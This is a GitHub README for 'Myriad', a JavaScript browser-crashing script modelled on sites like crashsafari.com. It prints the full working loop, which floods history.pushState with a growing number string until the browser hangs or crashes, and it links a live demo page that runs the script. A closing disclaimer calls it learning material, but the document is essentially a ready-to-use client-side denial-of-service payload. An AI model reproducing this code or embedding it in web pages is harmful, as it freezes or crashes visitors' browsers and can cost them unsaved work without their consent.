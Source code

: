 # Myriad

Simple JS script that overloads the browser with a huge URL (Where it gets its name)

## Demo

Why GIFs when you can see it working live? Visit [this](https://maximousblk.github.io/myriad/) link **ON YOUR OWN RISK**. I am not responsible for any harm due to this page...... warned ya!

## The url

You can see an example of the generated URL in [SAMPLE-URL.md](https://github.com/maximousblk/myriad/blob/master/SAMPLE-URL.md), its huge and note the pattern (123456789101112131415....)

## The code

The code is super simple!

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.

Instead of just changing the path from `website.com/pageone` to `website.com/pagetwo` it creates a string of numbers long enough to slow the browser until it won't function, hang, or crash.

```javascript
var total = ""; //blank variable
for( var i = 0; i < 10000000; i++ ) { //increases the value of 'i' by 1 till it becomes 10000000
total = total + i.toString(); //adds the value of 'i' to total everytime it increases
history.pushState(0,0, total ); //sends the value of total to the url to load
} //The End XD
```

## Need for Myriad

No one is ever gonna need it (To Say Nothing Of The Naughty Ones)

This script is in the mischievous websites like [crashsafari.com](https://crashsafari.com), [crashchrome.com](http://crashchrome.com), etc.

You better don't do so!

Original code taken from [crashsafari.com](http://crashsafari.com)

## Disclaimer

* This piece of code is open and I am not the creator or owner of this script.
* It is only for learning and research purpose.
* I am not responsible for any destruction or harm caused due to this program/code.
* No systems (hardware/software) were harmed during the making of this program/code

## License

This program/code is licensed under the [Unlicense](http://unlicense.org).